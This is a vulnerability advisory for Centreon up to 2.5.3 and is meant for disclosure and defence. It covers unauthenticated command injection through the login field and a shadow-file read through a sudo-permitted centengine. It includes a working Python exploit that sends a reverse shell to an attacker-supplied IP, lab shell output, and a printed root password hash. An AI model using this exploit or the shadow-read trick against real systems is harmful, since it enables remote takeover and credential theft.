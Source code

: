 Unauthenticated Remote Command Execution in Centreon Web Interface
==================================================================

Description
===========

Centreon is a popular monitoring solution.

A critical vulnerability has been found in the Centreon logging class allowing remote users to execute arbitrary commands.


SQL injection leading to RCE
============================

Centreon logs SQL database errors in a log file using the "echo" system command and the exec() PHP function. On the authentification class, Centreon use htmlentities with the ENT_QUOTES options to filter SQL entities.
However, Centreon doesn't filter the SQL escape character "\" and it is possible to generate an SQL Error. 
Because of the use of the "echo" system command with the PHP exec() function, and because of the lack of sanitization, it is possible to inject arbitrary system commands. 

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-78

----------------
Proof of Concept
----------------

TCP Reverse Shell using python.

    #!/usr/bin/env python
    import requests
    import argparse
    
    def shell(target, reverseip, reverseport):
        payload = 'import socket as a,subprocess as b,os as c;s=a.socket(2,1);s.connect(("%s",%d));d=s.fileno();c.dup2(d,0);c.dup2(d,1);c.dup2(d,2);p=b.call(["sh"]);' % (reverseip,reverseport)
        print "[~] Starting reverseshell : %s - port : %d" % (reverseip, reverseport)
        req = requests.post(target, data={"useralias": "$(echo %s | base64 -d | python)\\" % payload.encode("base64").replace("\n",""), "password": "foo"})
        print "[+] DEAD !"
    
    if __name__ == "__main__":
        print "[~] Centreon Unauthentificated RCE - Nicolas Chatelain"
        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True)
        parser.add_argument("--reverseip", required=True)
        parser.add_argument("--reverseport", required=True, type=int)
        args = parser.parse_args()
        shell(args.target, args.reverseip, args.reverseport)

Shell :

    nightlydev@nworkstation ~/Lab/Centreon $ python reverseshell.py --target=http://172.16.138.137/centreon/index.php --reverseip=172.16.138.1 --reverseport 8888
    [~] Centreon Unauthentificated RCE - Nicolas Chatelain
    [~] Starting reverseshell : 172.16.138.1 - port : 8888

# Other term

nightlydev@nworkstation ~/Lab/Centreon $ nc -lvp 8888
Ncat: Version 6.45 ( http://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 172.16.138.135.
Ncat: Connection from 172.16.138.135:50050.
whoami
apache
groups
apache centreon-engine centreon-broker centreon nagios


---------------
Vulnerable code
---------------

The vulnerable code is located in class/centreonLog.class.php, line 82 and line 154:


		/*
		 * print Error in log file.
		 */
		exec("echo \"".$string."\" >> ".$this->errorType[$id]);

In class/centreonAuth.class.php, line 227:

	 $DBRESULT = $this->pearDB->query("SELECT * FROM `contact` WHERE `contact_alias` = '" . htmlentities($username, ENT_QUOTES, "UTF-8") . "' AND `contact_activate` = '1' AND 		 `contact_register` = '1' LIMIT 1");


--------
Solution
--------

Update to the Centreon 2.5.4


Possible root password disclosure in centengine (Centreon Entreprise Server)
============================================================================

In some configurations, when centengine can run as root (with sudo). It's possible to read some file content.

**Access Vector**: local

**Security Risk**: high

**Vulnerability**: CWE-209

----------------
Proof of Concept
----------------

    $ sudo /usr/sbin/centengine -v /etc/shadow
    [1416391088] reading main config file
    [1416391088] error while processing a config file: [/etc/shadow:1] bad variable name: 'root:$6$3mvvEHQM3p3afuh4$DZ377daOy.8bn42t7ur82/Geplvsj90J7cs1xsgAbRZ0JDZ8KdB5CcQ0ucF5dwKpnBYLon1XBqjJPqpm6Zr5R0:16392:0:99999:7:::'
    [1416391088] 

---------------
Vulnerable code
---------------

In Centreon Entreprise Server (CES) : /etc/sudoers.d/centreon

CENTREON   ALL = NOPASSWD: /usr/sbin/centengine -v *

--------
Solution
--------

Do not allow centengine to be run as root or do not disclose the line that caused the error.

Timeline (dd/mm/yyyy)
=====================

* 18/11/2014 : Initial discovery
* 26/11/2014 : Contact with Centreon team
* 27/11/2014 : Centreon correct vulnerabilities
* 27/11/2014 : Centreon release version 2.5.4 that fixes vulnerabilities

Fixes
=====

* https://github.com/centreon/centreon/commit/a6dd914418dd185a698050349e05f10438fde2a9
* https://github.com/centreon/centreon/commit/d00f3e015d6cf64e45822629b00068116e90ae4d
* https://github.com/centreon/centreon/commit/015e875482d7ff6016edcca27bffe765c2bd77c1

Affected versions
=================

* Centreon <= 2.5.3


Credits
=======

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)

